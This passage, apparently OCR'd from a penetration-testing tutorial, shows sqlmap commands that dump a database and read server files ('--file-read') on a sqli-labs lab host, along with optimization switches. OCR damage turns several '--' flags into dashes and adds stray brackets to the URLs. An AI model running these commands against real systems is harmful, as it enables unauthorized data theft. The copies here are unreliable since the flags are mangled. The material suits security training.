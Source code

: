 we can also use — batch parameters to use the default value and don’t ask for user input.

Multi-threading
===============

threads

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 -D <database> --dump --threads 4
```

-threads is used to give max number of concurrent HTTP(s) requests.

Null connection

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 -D <database> --dump --null-connection
```

— null-connection is used to try to retrieve data without a full load of HTML.

keep alive

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 -D <database> --dump --keep-alive
```

— keep-alive is used for persistent HTTP(s) connection.

predict-output

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 -D <database> --dump --predict-output
```

— predict-output is used for predicting common query output.

Finally, we can use -o to turn on all optimization switches.

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 -D <database> --dump -o
```

---

read and write file
===================

We can use sqlmap to read and write files in that system so, for this, we should first check for the privileges.

We can do so using — privileges parameter.

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 --privileges
```

And if we have privileges we can use — file-read and the name of the file with its location to read it.

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 --file-read=c:/xampp/htdocs/index.php
```
